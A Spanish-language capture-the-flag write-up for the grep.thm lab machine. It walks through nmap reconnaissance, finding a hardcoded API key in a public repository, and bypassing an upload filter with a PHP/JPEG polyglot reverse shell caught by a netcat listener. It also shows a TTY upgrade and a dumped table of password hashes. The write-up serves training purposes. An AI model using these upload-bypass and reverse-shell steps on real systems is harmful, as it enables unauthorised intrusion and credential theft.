

**Write-up: Reconocimiento y Explotación Inicial de `grep.thm` (10.10.243.129)**

- **Fecha de la Evaluación:** 30 de Mayo de 2025
- **Objetivo:** Máquina `grep.thm` (IP: `10.10.243.129`)

---

### 1. Introducción y Objetivo

Este write-up detalla las fases de reconocimiento, enumeración y explotación inicial de la máquina objetivo `grep.thm`, identificada con la dirección IP `10.10.243.129`. El objetivo principal de esta evaluación fue descubrir servicios en ejecución, identificar vulnerabilidades y obtener acceso inicial al sistema para la posterior fase de escalada de privilegios.

### 2. Información del Objetivo

*   **Nombre de la Máquina (Potencial):** `grep.thm` (inferido del certificado SSL)
*   **Dirección IP:** `10.10.243.129`
*   **Sistema Operativo Inferido:** Linux (Ubuntu)
*   **Estado:** Online

### 3. Metodología: Fase de Reconocimiento Activo

La fase de reconocimiento se inició con la verificación de conectividad y un escaneo de puertos exhaustivo para identificar los servicios en ejecución.

#### 3.1. Verificación de Conectividad (Ping)

Antes de proceder con el escaneo de puertos, se verificó la conectividad básica con el objetivo para asegurar que el host estaba activo.

**Comando Ejecutado:**

```bash
┌──(kali㉿kali)-[~/grep]
└─$ ping 10.10.243.129
```

**Resultado:**

```
PING 10.10.243.129 (10.10.243.129) 56(84) bytes of data.
64 bytes from 10.10.243.129: icmp_seq=1 ttl=61 time=176 ms
[...]
--- 10.10.243.129 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4006ms
rtt min/avg/max/mdev = 175.374/175.961/176.434/0.419 ms
```

El host `10.10.243.129` respondió al `ping` con una latencia promedio de aproximadamente 176 ms, confirmando su accesibilidad.

#### 3.2. Escaneo de Puertos y Servicios con Nmap

Se realizó un escaneo Nmap para identificar puertos abiertos, sus versiones y para intentar ejecutar scripts de detección de vulnerabilidades (`-sVC`). Los resultados se guardaron en formato XML (`-oX`) y `greppable` (`-oG`) para facilitar el análisis y la generación de reportes.

**Comando Ejecutado:**

```bash
┌──(kali㉿kali)-[~/grep]
└─$ nmap -sVC -p22,80,443,51337 10.10.243.129 -oG services -oX report.xml
```

**Resultados del Escaneo Nmap:**

| Puerto    | Estado | Servicio | Versión/Información Detectada                                                 | Observaciones Iniciales                                                                                                                                                                     |
| :-------- | :----- | :------- | :---------------------------------------------------------------------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| 22/tcp    | open   | ssh      | OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                  | Versión específica de OpenSSH. Se buscarán vulnerabilidades conocidas o configuraciones débiles para esta versión (ej. métodos de autenticación permitidos).                                |
|           |        |          | *ssh-hostkey: RSA, ECDSA, ED25519*                                            | Claves de host SSH obtenidas.                                                                                                                                                               |
| 80/tcp    | open   | http     | Apache httpd 2.4.41 ((Ubuntu))                                                | Servidor web Apache. El título `Apache2 Ubuntu Default Page: It works` sugiere una instalación por defecto, lo que podría indicar falta de contenido principal o un error de configuración. |
|           |        |          | *http-server-header: Apache/2.4.41 (Ubuntu)*                                  | Confirmación de la versión de Apache.                                                                                                                                                       |
| 443/tcp   | open   | ssl/http | Apache httpd 2.4.41                                                           | Servidor web Apache sobre SSL/TLS. Título `403 Forbidden` en HTTPS.                                                                                                                         |
|           |        |          | *ssl-cert: Subject: commonName=grep.thm/organizationName=SearchME...*         | El certificado SSL revela el Common Name `grep.thm`, que es un posible nombre de dominio para el objetivo. Se recomienda añadirlo al archivo `/etc/hosts`.                                  |
|           |        |          | *Not valid before: 2023-06-14T13:03:09, Not valid after: 2024-06-13T13:03:09* | El certificado está activo, pero la fecha de validez `2024-06-13` es importante si el tiempo es actual o no se corresponde.                                                                 |
|           |        |          | *tls-alpn: http/1.1*                                                          |                                                                                                                                                                                             |
| 51337/tcp | open   | http     | Apache httpd 2.4.41                                                           | Otro servidor web Apache en un puerto no estándar. Título `400 Bad Request`. Esto indica que puede requerir un método HTTP específico o una ruta particular para funcionar correctamente.   |
|           |        |          | *http-server-header: Apache/2.4.41 (Ubuntu)*                                  | Confirmación de la versión de Apache.                                                                                                                                                       |

**Información Adicional del Servicio:**
*   **Host:** `ip-10-10-243-129.eu-west-1.compute.internal`
*   **Sistema Operativo:** Linux
*   **CPE:** `cpe:/o:linux:linux_kernel`

#### 3.3. Generación de Reporte HTML de Nmap

Para una revisión más legible de los resultados de Nmap, se convirtió el archivo XML generado (`report.xml`) a un formato HTML utilizando `xsltproc`.

**Comando Ejecutado:**

```bash
┌──(kali㉿kali)-[~/grep]
└─$ xsltproc report.xml -o report.html
```

Posteriormente, el archivo `report.html` fue abierto en el navegador Firefox para su visualización.

#### 3.4. Configuración del Archivo `/etc/hosts`

Dado el hallazgo del nombre de dominio `grep.thm` en el certificado SSL del puerto 443, se procedió a añadir una entrada en el archivo `/etc/hosts` local para resolver `grep.thm` a la dirección IP del objetivo. Esto es crucial para asegurar que las solicitudes al dominio `grep.thm` se dirijan correctamente a la máquina objetivo, lo que es vital para la exploración de aplicaciones web basadas en nombres de host virtuales.

**Comando para Editar `/etc/hosts` (Intento Inicial):**

```bash
┌──(kali㉿kali)-[~/grep]
└─$ sudo /etc/hosts
sudo: /etc/hosts: command not found
```

**Comando Correcto (para editar `/etc/hosts`):**

```bash
┌──(kali㉿kali)-[~/grep]
└─$ sudo nano /etc/hosts
```

**Nota:** En este punto, se añadió la línea `10.10.243.129 grep.thm` al archivo `/etc/hosts`.

### 4. Hallazgos Iniciales y Próximos Pasos (Tras Reconocimiento Pasivo)

La fase de reconocimiento inicial reveló los siguientes puntos clave para la investigación:

*   **Múltiples Servidores Web Apache:** Tres instancias del servidor Apache 2.4.41 están en ejecución en los puertos 80 (HTTP), 443 (HTTPS) y 51337 (HTTP no estándar).
    *   La página por defecto en el puerto 80 (`Apache2 Ubuntu Default Page: It works`) sugiere una instalación por defecto, lo que podría indicar más contenido web o un host virtual en otro lugar.
    *   El puerto 443 devuelve un `403 Forbidden`, lo que sugiere que se puede requerir un nombre de host específico (`grep.thm`) o rutas válidas para acceder. La configuración SSL/TLS debe ser revisada.
    *   El puerto 51337 devuelve un `400 Bad Request`, lo que indica que se necesita una interacción específica (ej. método HTTP, encabezados o ruta) para que el servidor responda correctamente. Este puerto no estándar es de particular interés.
*   **Servicio SSH:** Un servicio OpenSSH 8.2p1 está expuesto. Se buscarán vulnerabilidades conocidas asociadas a esta versión y se intentarán ataques de autenticación básicos.
*   **Nombre de Dominio Potencial:** El certificado SSL de `grep.thm` es un hallazgo importante que debe ser explotado en futuras interacciones web.
*   **Sistema Operativo:** El objetivo parece ser un sistema Linux (Ubuntu), lo que guiará las técnicas de post-explotación y escalada de privilegios.

---

### 5. Enumeración Web Avanzada y Descubrimiento de Credenciales

#### 5.1. Descubrimiento del Subdominio `leakchecker.grep.thm`

Al revisar el certificado SSL para `https://grep.thm:51337/`, se descubrió un nombre de dominio adicional: `leakchecker.grep.thm`.


Se añadió este subdominio al archivo `/etc/hosts` para poder resolverlo correctamente.

#### 5.2. Exploración del Dominio Principal `grep.thm` 
Al visitar `grep.thm` en el navegador, se encontró una página de inicio con opciones de `Login` y `Register`.


Se intentó registrar una nueva cuenta, pero la operación falló con un mensaje de "Invalid or Expired API key". Esto indicaba que se requería una API key específica para el registro.


#### 5.3. Descubrimiento del Repositorio `searchmecms`

Ante la necesidad de una API key y la interfaz de la aplicación, se infirió que se trataba de un sistema de gestión de contenido o una aplicación personalizada. Se realizó una búsqueda web utilizando el nombre "SearchME CMS" (inferido de la interfaz), lo que llevó al descubrimiento de un repositorio de GitHub: `supersecuredeveloper/searchmecms`.


#### 5.4. Obtención de la API Key

Dentro del repositorio, se examinó el archivo `api/register.php`. Este archivo reveló la lógica de registro y, crucialmente, la API key necesaria para el registro exitoso, incrustada directamente en el código.


La API Key encontrada fue: `ffe60ecaa8bba2f12b43d1a4b15b8f39`.

#### 5.5. Registro Exitoso de Usuario

Con la API key obtenida, se interceptó una solicitud de registro (usando Burp Suite) y se añadió el encabezado `X-THM-API-Key` con el valor descubierto. Esto permitió un registro exitoso.


Al loguearse con las nuevas credenciales, se accedió al panel de usuario, donde se encontró la "First Flag".


### 6. Obtención de Acceso Inicial (Web Shell)

#### 6.1. Análisis del Archivo `upload.php`

Se continuó la investigación del repositorio de GitHub y se encontró el archivo `api/upload.php`. Este archivo parecía ser un punto de entrada para subir archivos al servidor. Se infirió que podría ser una ruta no detectada por un escaneo de directorios normal, ya que la aplicación web no mostraba un enlace directo a ella.


Al acceder directamente a `https://grep.thm/public/html/upload.php`, se confirmó la existencia de una funcionalidad de carga de archivos.


El código de `upload.php` mostraba una validación basada en "magic bytes" para tipos de imagen (`jpg`, `jpeg`, `png`, `bmp`), lo que impedía la carga directa de un archivo PHP.

#### 6.2. Creación de un Archivo Polyglot (Web Shell)

El análisis de `api/upload.php` reveló una validación de archivos basada en "magic bytes" para tipos de imagen (`jpg`, `jpeg`, `png`, `bmp`), lo que impedía la carga directa de un archivo PHP. Para evadir este filtro, se consideraron métodos para crear un archivo "polyglot": una imagen válida que también contiene código PHP ejecutable.

**Método 1: Concatenación Simple (Alternativo)**

Una técnica común y a menudo efectiva es simplemente concatenar un archivo de imagen válido con el código de la `reverse shell` PHP. El servidor web o el intérprete de PHP pueden ejecutar el código PHP a pesar de que el archivo comience con cabeceras de imagen. Esto funciona porque el intérprete de PHP buscará la etiqueta `<?php` y ejecutará el código que la sigue, ignorando los datos binarios anteriores.

**Comando de Ejemplo:**

```bash
cat imagen.jpg revshell.php > evil.jpg
```

En este caso, `imagen.jpg` sería una imagen JPEG válida cualquiera y `revshell.php` contendría el código de la shell inversa. El archivo resultante `evil.jpg` (o `evil.jpg.php` para asegurar la interpretación como PHP) se subiría al servidor. Este método es más rápido si la validación del servidor no es excesivamente estricta.

**Método 2: Inserción de Magic Bytes (usado en el informe original)**

Si la concatenación simple no funciona (por ejemplo, si el servidor realiza una validación más estricta del formato de imagen completo o comprueba la ubicación exacta de los magic bytes), se puede construir el archivo desde cero, asegurando que los "magic bytes" de la imagen (`ffd8ffe0` para JPEG) estén al inicio del archivo, seguidos directamente por el código PHP.

Para esto, se preparó una `reverse shell` en PHP. El contenido de la shell se convirtió a formato hexadecimal y se combinó con el `magic byte` JPEG, guardando el resultado en un archivo de texto (`hex.txt`).

El contenido hexadecimal resultante para el archivo `rshell.jpg.php` fue:


Se utilizó el siguiente comando para generar el archivo `rshell.jpg.php` a partir del contenido hexadecimal, asegurando que el archivo mantuviera tanto la cabecera JPEG como el código PHP:

```bash
cat hex.txt | tr -d ' ' | xxd -r -p > rshell.jpg.php
```

La validación del archivo resultante con `file` mostró que se interpretaba como una imagen JPEG, lo que confirmaba el éxito del polyglot:

```bash
file rshell.jpg.php
# rshell.jpg.php: JPEG image data, JFIF standard 1.60, density 28776x28704, segment length 16, thumbnail 101x99
```

#### 6.3. Obtención de la Reverse Shell

Se configuró un `netcat` listener en el puerto 4444 para recibir la conexión de la `reverse shell`:

```bash
nc -lvnp 4444
```

Finalmente, se subió el archivo `rshell.jpg.php` a través de la página de carga de archivos. La ruta de subida revelada en el repositorio de GitHub era `api/uploads/`. Al acceder a `https://grep.thm/api/uploads/rshell.jpg.php`, la `reverse shell` se ejecutó y se recibió una conexión en el listener de `netcat`.


#### 6.4. Mejora de la Shell

Para mejorar la interactividad de la shell obtenida, se ejecutaron los siguientes comandos:

**En la shell del contenedor:**

```bash
script /dev/null -c bash
# Presionar Ctrl+Z (para suspender el proceso)
```

**En la consola del atacante:**

```bash
stty raw -echo; fg
# Presionar Enter dos veces
```

**De vuelta en la shell del contenedor:**

```bash
reset
export TERM=xterm
# Opcional: Ajustar filas/columnas si es necesario usando 'stty rows <num> cols <num>'
```

### 7. Enumeración Post-Explotación y Hallazgo Final

Una vez con la shell interactiva, se procedió a enumerar el sistema. Aunque el ejercicio no requería una escalada de privilegios completa, la inspección del sitio web reveló información crucial.

Se listó el contenido del directorio `/var/www` donde se encontraba la aplicación web:

```bash
www-data@ip-10-10-233-152:/var/www$ ls
backup           html                  private.key
certificate.crt  leak_certificate.crt  private_unencrypted.key
certificate.csr  leak_certificate.csr
default_html     leakchecker
```

Se encontró una carpeta llamada `backup`. Al acceder a ella, se descubrió un archivo `user.sql`, que contenía una base de datos de usuarios.

```sql
INSERT INTO `users` (`id`, `username`, `password`, `email`, `name`, `role`) VALUES
(1, 'test', '$2y$10$dE6VAdZJCN4repNAFdsO2ePDr3StRdOhUJ1O/41XVQg91qBEBQU3G', 'test@grep.thm', 'Test User', 'user'),
(2, 'admin', '$2y$10$3V62f66VxzdTzqXF4WHJI.Mpgcaj3WxwYsh7YDPyv1xIPss4qCT9C', '[email]', 'Admin User', 'admin');
```

Este archivo reveló información de usuario, incluyendo un usuario `admin` con un `email` asociado (aunque oculto en la captura de pantalla, se asume que era `admin@grep.thm` o similar, o un correo específico para el `leakchecker`).

Con la información del correo electrónico del usuario `admin` (obtenida del `user.sql`), se regresó a la página `leakchecker.grep.thm`. Esta página era un "Email Leak Checker". Al introducir el correo electrónico del administrador (o el correo inferido para la aplicación `leakchecker`), se obtuvo la información final necesaria para completar el ejercicio.



---
**Conclusión:**

La fase de reconocimiento inicial reveló múltiples servicios web Apache, un servicio SSH y un nombre de dominio potencial (`grep.thm`). La clave para el acceso inicial fue la identificación de un subdominio (`leakchecker.grep.thm`), el descubrimiento de un repositorio de GitHub que contenía la API key para el registro de usuarios, y una vulnerabilidad de carga de archivos que permitió el despliegue de un polyglot web shell. Una vez en el sistema, la enumeración condujo al hallazgo de un archivo de respaldo con credenciales de la base de datos, lo que a su vez permitió la explotación final a través del "Email Leak Checker".